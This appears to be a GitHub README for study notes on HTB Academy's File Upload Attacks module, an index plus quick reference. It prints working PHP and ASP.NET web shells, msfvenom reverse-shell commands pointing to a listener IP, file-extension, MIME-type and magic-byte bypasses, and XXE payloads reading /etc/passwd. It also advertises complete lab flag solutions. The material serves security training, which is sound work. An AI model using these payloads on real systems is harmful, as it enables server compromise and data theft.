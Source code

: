 # File Upload Attacks - HTB Academy Guide

> Complete guide covering file upload vulnerabilities, exploitation techniques, bypass methods, and defense strategies from HTB Academy's File Upload Attacks module.

## 📚 Table of Contents

### Core Techniques
- **[Upload Exploitation](./upload-exploitation.md)** - Web shells, reverse shells, and payload execution
- **[Client-Side Validation](./client-side-validation.md)** - Bypassing JavaScript-based frontend filtering
- **[Blacklist Filters](./blacklist-filters.md)** - Extension fuzzing and blacklist bypass techniques
- **[Basic Bypass Techniques](./basic-bypass-techniques.md)** - Whitelist bypasses, double extensions, character injection
- **[Type Filters](./type-filters.md)** - Content-Type manipulation and MIME-Type magic bytes bypass
- **[Limited File Uploads](./limited-file-uploads.md)** - XSS, XXE, and DoS attacks on secure upload forms
- **[Advanced Bypass Methods](./advanced-bypass-methods.md)** - Complex filtering evasion techniques
- **[Other Upload Attacks](./other-upload-attacks.md)** - Alternative attack vectors and techniques

### Defense & Testing
- **[Prevention & Hardening](./prevention-hardening.md)** - Secure file upload implementation
- **[Skills Assessment Walkthrough](./skills-assessment-walkthrough.md)** - Complete HTB Academy lab solutions

---

## Quick Reference

### 🎯 **Essential Upload Attack Payloads**

**PHP Web Shell (Basic):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**PHP Web Shell (Advanced):**
```php
<?php 
if(isset($_REQUEST['cmd'])){ 
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```

**ASP.NET Web Shell:**
```asp
<% eval request('cmd') %>
```

**Reverse Shell Generation:**
```bash
# PHP Reverse Shell
msfvenom -p php/reverse_php LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.php

# JSP Reverse Shell  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f raw > reverse.jsp

# ASPX Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.55 LPORT=4444 -f aspx > reverse.aspx
```

### 🔧 **Common Bypass Techniques**
```bash
# Extension Bypasses
file.php.jpg        # Double extension
file.php%00.jpg     # Null byte injection  
file.php%20         # Space injection
file.php%0a         # Newline injection

# Content-Type Bypasses
Content-Type: image/jpeg    # While uploading PHP
Content-Type: image/png     # Bypass MIME filtering
Content-Type: image/gif     # Image masquerading

# Magic Bytes (File Signature)
GIF8<?php system($_GET['cmd']); ?>      # Simple GIF header + PHP  
GIF89a<?php system($_GET['cmd']); ?>    # Full GIF header + PHP
\xFF\xD8\xFF\xE0<?php system($_GET['cmd']); ?>    # JPEG header + PHP

# XXE Attacks (Limited Uploads)
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  # File disclosure
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>  # Source code
```

### 🎯 **HTB Academy Coverage**
- ✅ **Upload Exploitation (Page 3)** - Web shells, reverse shells, msfvenom integration
- ✅ **Client-Side Validation (Page 4)** - Burp Suite interception, DevTools manipulation
- ✅ **Blacklist Filters (Page 5)** - Extension fuzzing, .phtml bypass, case sensitivity
- ✅ **Whitelist Filters (Page 6)** - Double extensions, character injection, null bytes
- ✅ **Type Filters (Page 7)** - Content-Type headers, MIME-Type magic bytes (GIF8), combined attacks
- ✅ **Limited File Uploads (Page 8)** - XSS via SVG/HTML, XXE file disclosure, DoS attacks (ZIP bomb, pixel flood)
- ✅ **Complete Lab Solutions** - All HTB Academy flags and step-by-step walkthroughs
- ✅ **Advanced Techniques** - Server misconfigurations, automated wordlist generation, polyglot files

---

## Module Overview

File upload vulnerabilities occur when web applications allow users to upload files without proper validation and sanitization. These vulnerabilities can lead to:

### **💀 Critical Impacts:**
- **Remote Code Execution (RCE)** - Execute arbitrary commands on the server
- **Web Shell Deployment** - Persistent backdoor access
- **Data Exfiltration** - Access sensitive files and databases
- **Lateral Movement** - Pivot to internal network systems
- **Website Defacement** - Modify web application content

### **🎯 Attack Vectors:**
- **Unrestricted File Upload** - No validation on file types
- **Client-side Validation Only** - JavaScript-based filtering
- **Inadequate Server-side Validation** - Weak filtering mechanisms
- **File Type Confusion** - MIME type and extension mismatches
- **Path Traversal** - Directory traversal via filename manipulation

### **🛡️ Defense Strategies:**
- **Whitelist Approach** - Allow only specific file types
- **Server-side Validation** - Comprehensive file checking
- **File Content Inspection** - Magic byte verification
- **Secure Storage** - Non-executable upload directories
- **Filename Sanitization** - Remove dangerous characters

---

## HTB Academy Labs Covered

### **🧪 Practical Exercises:**
- **Upload Exploitation Lab** - Basic web shell deployment
- **Bypass Techniques Lab** - Filter evasion methods  
- **Advanced Attacks Lab** - Complex exploitation scenarios
- **Defense Implementation Lab** - Secure upload configuration

### **🎯 Skills Assessment:**
- **Target:** \`94.237.49.23:52640\`
- **Objective:** Upload web shell and retrieve \`/flag.txt\`
- **Techniques:** Extension bypass, content-type manipulation, payload execution

This module provides comprehensive coverage of file upload attack vectors, from basic exploitation to advanced bypass techniques, with practical HTB Academy lab solutions and real-world defense strategies.
